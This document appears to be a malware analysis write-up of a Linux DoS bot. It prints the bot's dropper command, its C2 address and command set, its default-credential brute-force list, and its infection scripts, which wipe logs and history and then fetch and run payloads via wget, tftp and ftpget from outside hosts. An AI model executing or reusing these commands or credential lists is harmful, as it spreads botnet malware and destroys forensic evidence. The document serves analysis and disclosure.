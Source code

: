 Initial file dropped:

```
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; wget keedz.tk/client ; chmod +x client ; ./client ; rm -rf client ; rm -rf bash_history ; export HISTFILE=/dev/null ; rm -rf botz.sh ; exit
```

The `client` is a 64-bit ELF binary. The binary acts as a DoS bot which connect to their CNC (5.135.209.121) on port 23.

Available commands:

```
GETLOCALIP
SCANNER ON | OFF
HOLD
JUNK
HTTP
COMBO
KILLATTK
FUCKOFF
```

Below is the connection to the CNC:

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* SCANNER ON
PING
PONG
```

If you try to connect for the 2nd time, this will be output.

```
Trying 5.135.209.121...
Connected to ip121.ip-5-135-209.eu.
Escape character is '^]'.
!* LOLNOGTFO
Connection closed by foreign host.
```

However, the CNC can be connected again after a few seconds.

The binary spread by bruteforcing the login for a random IP addresses. 

List of usernames:

```
root
admin
user
login
guest
support
```
List of passwords:

```
root
toor
admin
user
guest
login
changeme
1234
12345
123456
default
password
support
```

Once logged in, it will execute the following commands:

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 5.135.209.121 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 5.135.209.121; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 23 5.135.209.121 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
```

Inside bins.sh, more binary will be fetch

```
-e #!/bin/bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ntpd; chmod +x ntpd; ./ntpd; rm -rf ntpd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sshd; chmod +x sshd; ./sshd; rm -rf sshd
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/openssh; chmod +x openssh; ./openssh; rm -rf openssh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/bash; chmod +x bash; ./bash; rm -rf bash
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/tftp; chmod +x tftp; ./tftp; rm -rf tftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/wget; chmod +x wget; ./wget; rm -rf wget
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/cron; chmod +x cron; ./cron; rm -rf cron
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/ftp; chmod +x ftp; ./ftp; rm -rf ftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/pftp; chmod +x pftp; ./pftp; rm -rf pftp
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/sh; chmod +x sh; ./sh; rm -rf sh
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/' '; chmod +x ' '; ./' '; rm -rf ' '
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/apache2; chmod +x apache2; ./apache2; rm -rf apache2
-e cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://5.135.209.121/telnetd; chmod +x telnetd; ./telnetd; rm -rf telnetd
```